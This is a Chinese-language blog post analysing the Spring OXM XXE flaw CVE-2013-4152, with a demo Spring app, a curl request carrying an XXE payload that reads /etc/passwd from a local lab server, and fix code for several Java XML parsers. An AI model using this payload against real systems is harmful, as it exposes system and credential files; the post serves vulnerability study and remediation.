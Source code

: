 ```yaml
---
layout: post  
title: "2018-01-26-Spring XXE漏洞(CVE-2013-4152,CVE-2014-0225)"  
date: 2018-01-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

  #介绍  
老漏洞了，原理也很简单，随便分析一波。  
漏洞编号为CVE-2013-4152，根据官方提示，xxe漏洞，漏洞的位置包括oxm，嗯，现学现卖，直接翻到文档学习一波
https://docs.spring.io/spring/docs/current/spring-framework-reference/data-access.html#oxm
根据官方写一个demo  

    ````
    public class Application {
    private static final String FILE_NAME = "src/main/java/test/settings.xml";
    private Settings settings = new Settings();
    private Marshaller marshaller;
    private Unmarshaller unmarshaller;

    public void setMarshaller(Marshaller marshaller) {
        this.marshaller = marshaller;
    }

    public void setUnmarshaller(Unmarshaller unmarshaller) {
        this.unmarshaller = unmarshaller;
    }

    public void saveSettings() throws IOException {
        FileOutputStream os = null;
        try {
            os = new FileOutputStream(FILE_NAME);
            this.marshaller.marshal(settings, new StreamResult(os));
        } finally {
            if (os != null) {
                os.close();
            }
        }
    }

    public void loadSettings() throws IOException {
        FileInputStream is = null;
        try {
            is = new FileInputStream(FILE_NAME);
            this.settings = (Settings) this.unmarshaller.unmarshal(new StreamSource(is));
        } finally {
            if (is != null) {
                is.close();
            }
        }
    }

    public static void main(String[] args) throws IOException {
        ApplicationContext appContext =
                new ClassPathXmlApplicationContext("applicationContext.xml");
        Application application = (Application) appContext.getBean("application");
        application.saveSettings();
        application.loadSettings();
    }

	}
----------------------------------	

    ````
    public class Settings {
    private boolean fooEnabled;

    public boolean isFooEnabled() {
        return fooEnabled;
    }

    public void setFooEnabled(boolean fooEnabled) {
        this.fooEnabled = fooEnabled;
    }

	}
    
    ````
    
----------------------------------
测试完xml解析之后，写了一个web项目，验证一下，核心代码如下:
    
    ````
    @Controller
	public class XmlController {
    @RequestMapping(value = "/login", method = RequestMethod.POST, consumes = "application/xml")
    @ResponseBody
    public String login(@RequestBody User user) {
        String username = user.getUserName();
        String userpassword = user.getUserPassword();
        String result;

        if (username.equals("admin") && userpassword.equals("admin888")){
            result = "{'status':'ok', 'message': 'login success', 'username': " + username+ "}";
        }else {
            result = "{'status':'error', 'message': 'login fail', username': " + username+ "}";
        }
        return result;
    }

	}
    ````
-----------------------------------

    ````
    @XmlRootElement(name = "user")
public class User {
    private String userId;
    private String userName;
    private String userPassword;

    @XmlElement
    public String getUserPassword() {
        return userPassword;
    }

    public void setUserPassword(String userPassword) {
        this.userPassword = userPassword;
    }

    @XmlElement
    public String getUserId() {
        return userId;
    }

    public void setUserId(String userId) {
        this.userId = userId;
    }

    @XmlElement
    public String getUserName() {
        return userName;
    }

    public void setUserName(String userName) {
        this.userName = userName;
    }
	}
    ````
   
-------------------------------------

正常测试XML如下

curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin888</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login

 xml：

<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin</userPassword></user>

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/89299704.jpg)

有回显
curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE a [<!ENTITY xxe2 SYSTEM \"file:///etc/passwd\">]>
<user><userName>&xxe2;</userName><userPassword>admin</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login
    ![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/57761901.jpg)
    
漏洞造成的原因是由于unmarshal函数中直接解析xml文件,没什么好分析的。

官方修复的补丁
https://github.com/spring-projects/spring-framework/pull/317/commits/2843b7d2ee12e3f9c458f6f816befd21b402e3b9

指的说明的是网上很多关于xxe漏洞的修复方案中只提到
    
    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
	
各种类型的具体修复方案见下面
DOM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);

SAX

    XMLReader xmlReader = XMLReaderFactory.createXMLReader();
    xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
    xmlReader.parse(new InputSource(externalSource));

StAX

    XMLInputFactory factory = XMLInputFactory.newInstance();
    factory.setProperty(XMLInputFactory.SUPPORT_DTD, false); // disable DTDs entirely for that factory
    factory.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false); // disable external entities
    XMLStreamReader reader = factory.createXMLStreamReader(externalSource);


Spring OXM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);
    DOMSource source = new DOMSource(document);
    Jaxb2Marshaller jaxb2Marshaller = ...
    Object unmarshalled = jaxb2Marshaller.unmarshal(source);



CVE-2013-4152补丁设置xmlReader.setFeature("http://xml.org/sax/features/external-general-entities",false);可以防止外部实体被解析  

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/60015109.jpg)

  ###参考文档  
http://blog.csdn.net/scmrpu/article/details/50423701
https://security.tencent.com/index.php/blog/msg/69







